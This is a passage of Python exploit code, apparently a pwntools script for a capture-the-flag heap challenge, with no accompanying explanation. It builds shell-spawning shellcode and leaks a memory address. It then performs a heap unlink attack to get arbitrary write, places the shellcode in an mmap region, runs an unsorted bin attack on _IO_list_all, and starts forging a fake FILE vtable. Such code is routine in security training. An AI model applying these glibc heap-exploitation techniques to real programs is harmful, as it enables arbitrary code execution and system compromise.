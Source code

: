 ```py
        mov rdx,0x100
        mov rax,SYS_write
        syscall
        mov rax,SYS_exit
        syscall
    """
shellcode = asm(shellcraft.sh())

p.recvuntil("Mmap: ")
mmap_addr = int(p.recvuntil('\n',drop=True),16)
print hex(mmap_addr)


##unlink
heap_list = add(0xf8) - 0x8 #0
add(0xf0) #1
add(0x20) #2

payload = p64(0) + p64(0xf0)
payload += p64(heap_list+0x8-0x18) + p64(heap_list+0x8-0x10)
payload = payload.ljust(0xf0,'\x00')
payload += p64(0xf0)
edit(0,payload)
delete(1)



##mmap_addr->shellcode
payload = p64(0)*2 + p64(0xf8) + p64(heap_list-0x10)
payload += p64(0x1000) + p64(mmap_addr)
edit(0,payload+'\n')
edit(1,shellcode+'\n')



##unsorted bin size: 0x1c1->0x61
add(0x20) #3
payload = p64(0)*2 + p64(0xf8) + p64(heap_list-0x10)
payload += p64(0)*4 + p64(8) + '\x48' + '\n' #unsortedbin size
edit(0,payload)
edit(3,'\x61\x00'+'\n')



##unsortedbin attack
##bk -> IO_list_all-0x10
payload = p64(0)*2 + p64(0xf8) + p64(heap_list-0x10)
payload += p64(0)*4 + p64(8) + '\x58' + '\n' #unsortedbin bk
edit(0,payload)
edit(3,'\x10\x25'+'\n') #IO_list_all


##fake vtable
payload = p64(0)*2 + p64(0xf8) + p64(heap_list-0x10)
payload += p64(0)*4 + p64(0x1000) + '\x60' + '\n'
edit(0,payload)



fake_vtable = (heap_list - 0x202060) + 0x202070
payload = p64(2) + p64(3)
payload  = payload.ljust(0xb8,'\x00')
payload += p64(fake_vtable)
```